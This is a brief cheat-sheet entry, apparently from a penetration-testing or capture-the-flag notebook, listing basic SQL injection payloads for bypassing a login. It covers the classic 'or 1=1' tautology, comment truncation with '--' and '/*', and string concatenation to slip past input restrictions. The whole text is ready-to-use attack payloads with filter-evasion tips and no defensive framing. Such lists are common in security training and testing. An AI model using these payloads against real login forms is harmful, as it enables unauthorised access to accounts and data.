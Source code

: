 # Basic SQLi:
```admin' or 1=1 -- ```

```admin' -- ```

```ad'||'min``` used for concatenation when having restrictions. Also in conjunction with a true statement: ```a' IS NOT 'b```

```admin'/* ``` when we cannot use '--'

Other variants: ```adm'||'in'/* ```
